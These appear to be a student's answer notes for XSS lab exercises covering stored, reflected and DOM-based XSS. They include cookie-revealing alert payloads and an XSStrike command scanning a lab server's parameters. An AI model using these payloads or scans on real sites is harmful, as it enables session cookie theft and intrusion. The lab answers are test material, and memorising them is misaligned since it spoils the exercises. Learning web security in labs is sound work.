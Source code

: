 # Stored XSS

#### Questions
+ 2  To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.

```js
<script>alert(document.cookie)</script>
```

# Reflected XSS

#### Questions
 To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.

```js
<script>alert(document.cookie)</script>
```

# DOM XSS

```js
<image src="" onerror=alert(document.cookie)>
```

# XSS Discovery

#### Questions

+ 2  Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?

```zsh
python3 /opt/XSStrike/xsstrike.py -u 'http://83.136.253.201:43077/?fullname=1&username=1&password=1&email=1%40gmail.com'
```

![](images/1.png)
